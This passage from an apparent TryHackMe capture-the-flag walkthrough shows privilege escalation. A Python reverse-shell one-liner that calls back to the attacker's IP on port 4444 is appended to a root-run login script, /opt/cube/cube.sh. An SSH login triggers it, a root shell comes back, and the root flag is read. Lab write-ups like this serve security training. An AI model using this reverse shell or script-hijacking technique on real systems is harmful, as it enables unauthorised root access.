 Now, let's modify the script to include our reverse shell. We need to add a Python reverse shell to the script:

```bash
# First, let's backup the original script
cp /opt/cube/cube.sh /opt/cube/cube.sh.backup

# Add our reverse shell to the script (replace 10.9.x.x with YOUR IP)
echo 'python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.9.x.x\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);"' >> /opt/cube/cube.sh
```

**To find your IP address (attacking machine):**
```bash
ip addr show tun0
# or
ifconfig tun0
```

Look for your TryHackMe VPN IP address (usually starts with 10.x.x.x).

### Step 12: Triggering the Reverse Shell

The script runs when someone logs in via SSH. Let's trigger it by opening a new SSH session to the same machine:

```bash
# In a new terminal, SSH again
ssh baksteen@10.10.4.101
```

**Check your netcat listener** - you should see a connection!

**Example successful connection:**
```bash
Listening on 0.0.0.0 4444
Connection received on 10.10.4.101 45944
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

Congratulations! You now have root access!

### Step 13: Capturing the Flag

```bash
# Find the flag
find / -name "flag.txt" 2>/dev/null
# or
ls /root
```

**Read the root flag:**
```bash
cat /root/flag.txt
```
